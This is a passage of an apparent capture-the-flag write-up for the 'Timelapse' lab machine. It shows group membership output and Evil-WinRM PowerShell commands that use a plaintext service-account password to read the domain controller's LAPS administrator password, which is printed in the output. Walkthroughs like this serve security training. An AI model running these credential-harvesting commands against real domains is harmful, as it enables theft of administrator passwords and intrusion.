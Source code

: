    USER INFORMATION
    ----------------

    User Name            SID
    ==================== ============================================
    timelapse\svc_deploy S-1-5-21-671920749-559770252-3318990721-3103


    GROUP INFORMATION
    -----------------

    Group Name                                  Type             SID                                          Attributes
    =========================================== ================ ============================================ ==================================================
    Everyone                                    Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled group
    BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                 Mandatory group, Enabled by default, Enabled group
    BUILTIN\Users                               Alias            S-1-5-32-545                                 Mandatory group, Enabled by default, Enabled group
    BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                 Mandatory group, Enabled by default, Enabled group
    NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                      Mandatory group, Enabled by default, Enabled group
    NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                     Mandatory group, Enabled by default, Enabled group
    NT AUTHORITY\This Organization              Well-known group S-1-5-15                                     Mandatory group, Enabled by default, Enabled group
    TIMELAPSE\LAPS_Readers                      Group            S-1-5-21-671920749-559770252-3318990721-2601 Mandatory group, Enabled by default, Enabled group
    Authentication authority asserted identity  Well-known group S-1-18-1                                     Mandatory group, Enabled by default, Enabled group
    Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448

I used a simple [commande](https://smarthomepursuits.com/export-laps-passwords-powershell/) to retrieve the LAPS password.

    ::text
    *Evil-WinRM* PS C:\Users\legacyy\Documents> $so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
    *Evil-WinRM* PS C:\Users\legacyy\Documents> $p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
    *Evil-WinRM* PS C:\Users\legacyy\Documents> $c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
    *Evil-WinRM* PS C:\Users\legacyy\Documents> invoke-command -computername localhost -credential $c -port 5986 -usessl -SessionOption $so -scriptblock {Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd, ms-Mcs-AdmPwdExpirationTime}
    PSComputerName              : localhost
    RunspaceId                  : e7ea358f-6d9c-47d5-b26a-2505848b8b58
    DistinguishedName           : CN=DC01,OU=Domain Controllers,DC=timelapse,DC=htb
    DNSHostName                 : dc01.timelapse.htb
    Enabled                     : True
    ms-Mcs-AdmPwd               : 3S5cxvMIgY{D9a2eP%l4}QOs
    ms-Mcs-AdmPwdExpirationTime : 133000468494251195
    Name                        : DC01
    ObjectClass                 : computer
    ObjectGUID                  : 6e10b102-6936-41aa-bb98-bed624c9b98f
    SamAccountName              : DC01$
    SID                         : S-1-5-21-671920749-559770252-3318990721-1000
    UserPrincipalName           :
    <SNIP>

